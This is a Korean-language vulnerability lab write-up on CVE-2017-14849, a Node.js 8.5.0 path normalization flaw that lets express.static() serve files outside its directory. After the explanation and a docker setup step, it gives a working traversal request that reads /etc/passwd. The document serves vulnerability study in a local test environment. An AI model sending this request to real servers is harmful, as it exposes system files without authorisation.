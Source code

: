 # Node.js 디렉터리 탐색 취약점(CVE-2017-14849)

## 취약점 개요

 Node js 8.5.0에서는 `파일 경로 정규화(Path Normalization)` 취약점이 있습니다. 상위 레이어(예: ../../../../../../etc/passwd)로 이동하는 중에 바르지 못한 폴더가 있는 경우 (예: ../../../foo/../../../etc/passwd) 오류가 발생해야 하지만 `파일 경로 정규화(Path Normalization)` 취약점으로 인해 `/etc/passwd`의 결과를 반환하게 됩니다.

 Express와 같은 웹 프레임워크는 일반적으로 정적 파일을 제공하기 위해 `express.static()`를 사용합니다. 이러한 함수는 내부적으로 경로 정규화를 수행하면서 디렉터리의 범위를 초과하는지 여부를 확인합니다. 그러나 Node js 8.5.0 버전의 경우 위 버그로 인해 정규화 함수가 잘못된 결과를 반환하고 디렉터리 탐색 취약점이 발생합니다.

해당 버그는 디렉터리를 단순 탐색하는 것 이상의 영향을 미칠 수 있으므로 더 깊이 조사할 필요가 있습니다. 그러나 이 취약점은 Node js 8.6.0에서 수정되었기 때문에 영향의 범위가 제한됩니다.

## 환경 실행

다음의 명령어를 통해 테스트 환경을 구성함.

```
docker compose up -d
```

`http://your-ip:3000/`으로 접속할 수 있습니다.
![1](https://github.com/junwonheo/junwonheo.github.io/assets/129061707/5dfcff9a-8a77-48d0-9238-09dc5a6c35ff)

`/static/main.js`에 정적 파일이 존재합니다. 아래와 같은 패킷을 보내겠습니다.

```
GET /static/../../../a/../../../../etc/passwd HTTP/1.1
Host: your-ip:3000
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
```
![2](https://github.com/junwonheo/junwonheo.github.io/assets/129061707/2bc0b8f2-f53f-4693-890a-657f7c378317)

